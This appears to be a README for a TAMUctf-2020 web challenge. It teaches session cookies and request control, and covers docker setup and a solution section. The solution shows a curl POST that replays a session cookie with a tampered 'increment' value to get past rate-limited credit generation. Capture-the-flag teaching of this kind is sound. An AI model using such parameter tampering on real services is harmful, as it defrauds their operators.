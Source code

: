 # POST modification (TAMUctf-2020 credits challenge)
The objective of this is to help the user understand session cookies, as well as help them understand how to control client side requests. 

## Challenge flavor
Try testing out this new credit system that I just created! 

		http://<address>

hint: Credit generation is rate limited. It is literally impossible to generate 2,000,000,000 credits within the CTF timeframe.

## Setup
Build and run docker container

        sudo docker build -t credits .

		sudo docker run credits

## Solution
After logging in, make note of the user_sid cookie. Instead of bruteforcing the credit generation, simply send a POST request with a modified "increment" value as such:

curl -d "increment=2000000000" -b user_sid="<get_user_sid_cookie_from_browser>" -H "Content-Type: application/x-www-form-urlencoded" -X POST http://<website_address>/newcredit
